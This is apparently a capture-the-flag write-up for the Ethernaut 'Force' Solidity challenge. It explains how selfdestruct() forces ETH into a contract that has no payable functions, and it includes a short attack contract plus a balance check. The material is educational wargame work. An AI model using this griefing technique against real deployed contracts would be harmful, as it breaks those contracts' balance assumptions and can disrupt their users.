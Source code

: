 # Ethernaut Challenge: Force 🧨

**Level Goal:**  
Make the balance of the contract greater than zero.

``` solidty
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */
}
```
## 🔍 Challenge Summary

You're given a contract address — but it has no public methods, no payable functions, and doesn’t accept ETH in any normal way.

So how do you send it ETH?

**Hint:** Sometimes the EVM gives you secret tools that let you go around the rules... and one of those tools is `selfdestruct()`.

---

## 🧠 Key Concepts

### 1. selfdestruct()
This EVM opcode:
- Deletes the calling contract from the blockchain.
- Forces any remaining balance to be sent to a target address — **even if that address has no payable functions or code at all**.

### 2. Fallback Doesn’t Matter Here
The victim contract doesn’t need a fallback function. ETH gets sent directly into its balance **via EVM mechanics**, not by calling any of its functions.

---

## 🛠️ The Attack

Here’s the minimal contract we use to blow ourselves up and force ETH into the target:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract AttackForce {
    address public owner;

    constructor(address _force) payable {
        owner = msg.sender;
        selfdestruct(payable(address(_force)));
    }
    
}
```

✅ Victory Check
Run this in your browser console (or web3 console) to verify:
```
await web3.eth.getBalance(instance)
```
## 🧠 What I Learned
 Contracts can receive ETH even without any payable function, using selfdestruct.<br />
 This can be used to grief or break logic that assumes a contract will never receive ETH. <br />
 EVM mechanics > Solidity code — and smart attackers go deeper than the code surface.



🧠 Stay Sharp
Always ask: “What assumptions does this contract make about its balance, and can I break them?”


